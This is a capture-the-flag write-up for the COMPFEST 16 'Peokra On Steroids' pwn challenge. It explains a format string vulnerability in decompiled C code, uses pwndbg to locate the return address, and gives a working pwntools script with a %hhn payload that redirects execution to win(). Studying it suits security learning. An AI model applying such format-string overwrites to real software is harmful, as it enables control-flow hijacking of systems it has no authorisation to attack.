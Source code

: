 # COMPFEST 16 Peokra On Steroids

### Source Code
The following is the source code of the `vuln` function. The goal of this challenge is to overwrite the `return` address with the address of the `win()` function. If we can achieve this, it will give us the flag.

```c
int vuln(void)
{
  int iVar1;
  ssize_t sVar2;
  long in_FS_OFFSET;
  int local_3c;
  int local_38;
  int i;
  char *local_30;
  char buffer [24];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_30 = buffer;
  local_3c = 0;
  puts("Halo, aku Peokra!! Aku bikin program yang bisa nerima input dari kalian.");
  printf(&DAT_001020b0);
  __isoc99_scanf(&DAT_001020f4,&local_3c);
  local_30 = local_30 + (long)local_3c * 4;
  puts("Sekarang input, tapi kalian gak boleh masukin huruf \'n\' ya:");
  sVar2 = read(0,buffer,16);
  local_3c = (int)sVar2;
  local_38 = 1;
  i = 0;
  do {
    if (local_3c + -1 <= i) {
LAB_0010144e:
      if (local_38 == 0) {
        puts(&DAT_00102138);
        iVar1 = 0;
      }
      else {
        printf("Kamu menginput: ");
        iVar1 = printf(buffer);
      }
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return iVar1;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    if (buffer[i] == 'n') {
      local_38 = 0;
      goto LAB_0010144e;
    }
    i = i + 1;
  } while( true );
}
```

Based on the program above, we can see that there is a format string vulnerability where `buffer` is printed using `printf` without sanitization. We can exploit this to overwrite the `return` address with the address of `win()`.

### Finding the Return Address Offset in `vuln()`

To find the offset of the return address in `vuln`, we can perform a series of tests by entering payloads like `%p,%p,%p,%p,%p` or `%n$p`.

```bash
Halo, aku Peokra!! Aku bikin program yang bisa nerima input dari kalian.
Pertama, masukkan umur kalian untuk disesuaikan sama input (😅): %p%p%p%p
Sekarang input, tapi kalian gak boleh masukin huruf 'n' ya:

Kamu menginput: p0x7fff28eeaea0(nil)(nil)
```

After some exploration, I found that the return address in `vuln` is located at offset 9. We can use `%9$p` to find the return address offset, and here’s the result of `%9$p`:

```bash=
pwndbg> %9$p

0x7fffffffdda8

pwndbg> x/20x $rsp
0x7fffffffdd60: 0x00000000      0x00000000      0x70e46469      0x00000005
0x7fffffffdd70: 0x00000001      0x00000004      0xffffdda8      0x00007fff
0x7fffffffdd80: 0x70243925      0x00007f0a      0xffffddb0      0x00007fff
0x7fffffffdd90: 0x00000000      0x00000000      0xcc2bc200      0x08eaefdb
0x7fffffffdda0: 0xffffddb0      0x00007fff      0x555552b5      0x00005555
```

From the `x/20x $rsp` output, it is clear that the address `0x7fffffffdda8` is the return address from `vuln` because it holds the value `0x00005555555552b5`, which is the address of `main`.

We can leverage this to change the address of `main` to the address of `win()`.

First, let’s find the address of `win()`:

```bash=
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00005555555552bf <+0>:     endbr64
   0x00005555555552c3 <+4>:     push   rbp
   0x00005555555552c4 <+5>:     mov    rbp,rsp
   0x00005555555552c7 <+8>:     sub    rsp,0x120
   0x00005555555552ce <+15>:    mov    rax,QWORD PTR fs:0x28
   0x00005555555552d7 <+24>:    mov    QWORD PTR [rbp-0x8],rax
```

From the debug output above, we find that the address of `win()` is `0x00005555555552bf`. Our task now is to overwrite the `main` address in the return with `0x00005555555552bf`.

## Exploitation

We know that the return address offset in `vuln()` is 9, and our target address is `0x00005555555552bf`. Here is the payload that can be used to exploit the vulnerability and jump to the `win()` function:

```python
from pwn import *

# Allows easy swapping between local/remote/debug modes
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDB script below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset

io = start()
io.clean(1)
io.send(b'10')
io.clean(1)

payload = b'AAAAA%191c%9$hhn'

io.send(payload)
io.interactive()
```

Thank you :)

